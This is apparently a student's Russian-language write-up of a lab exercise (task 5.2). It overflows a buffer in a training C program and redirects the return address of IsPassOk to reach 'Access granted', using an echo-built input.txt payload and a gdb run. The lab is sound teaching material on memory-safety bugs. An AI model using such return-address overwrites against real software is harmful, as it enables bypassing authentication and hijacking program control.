 # Решение задачи про взлом (5.2)

**1. Узнаем адрес возврата, сохраненный в ф-ии IsPassOk, который нужно перезаписать:**
![адрес возврата](images/adres_vozvrata.jpg)

**2. Узнаем адрес строки "Access granted":**
![адрес строки](images/adres_stroki.jpg)

**3. Запишем необходимое кол-во байт в файл input.txt:**

`` `echo -ne "12345678901234567890\xd8\x11\x40\00" > input.txt` ``

Пояснение: 20 байт - массив символов + сохр. rbp.

**4. Запуск программы:**

`(gdb) b 30 `

`Breakpoint 1 at 0x4011fa: file task5.2.c, line 31.`

`(gdb) r < input.txt `

![результат](images/result.jpg)